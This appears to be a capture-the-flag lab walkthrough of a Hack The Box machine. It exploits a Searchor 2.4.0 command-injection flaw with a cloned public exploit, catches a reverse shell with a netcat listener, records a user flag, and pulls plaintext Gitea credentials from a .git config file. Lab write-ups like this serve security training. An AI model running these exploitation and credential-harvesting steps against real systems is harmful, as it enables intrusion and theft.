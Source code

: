 This site allows for queries to be made to other sites like Accuweather. At the bottom of the page, we can also see that they are using Flask and Searchor 2.4.0. Doing some Google search we found that it has a CVE assigned to it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738909953135/a65cb86f-5626-4e36-b758-c4e6ba688e9d.png align="left")

So, let's follow the POC and try to get a shell.

```bash
git clone https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection.git
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738909965239/7ab6ed9b-5aa3-45ab-a28c-4d5d922b2589.png align="left")

```bash
./exploit.sh searcher.htb 10.10.14.104
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738909985153/52ce91ed-2739-404f-b848-4b8751f3c7a1.png align="center")

Let's check our Netcat listener.

```bash
rlwrap nc -nlvp 9001
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738909993124/b1edfb45-bcc4-42e9-9132-a7f48cb55949.png align="center")

Let's get our first flag now.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738909996609/0863ee5b-2c36-4913-ad60-3ec2b3fec5ac.png align="center")

Flag: *73510de022f7a3527af03bb9744427a8*

Now let's escalate our privileges to get to root. Let's list out the files.

```bash
ls -la
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738910002047/3d116a6f-0cc8-4ec0-a372-2375f943fcb2.png align="center")

we can see that there's a `.git` folder let's check if we can find something interesting there.

```bash
cd .git
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738910014919/5996254f-81dc-4078-ae56-a73b86f4f89f.png align="center")

Nice! We can see that a config file here might get some creds from it.

```bash
cat config
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738910019481/809f6575-704b-46f9-99fd-88d49cbcab63.png align="center")

```bash
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```
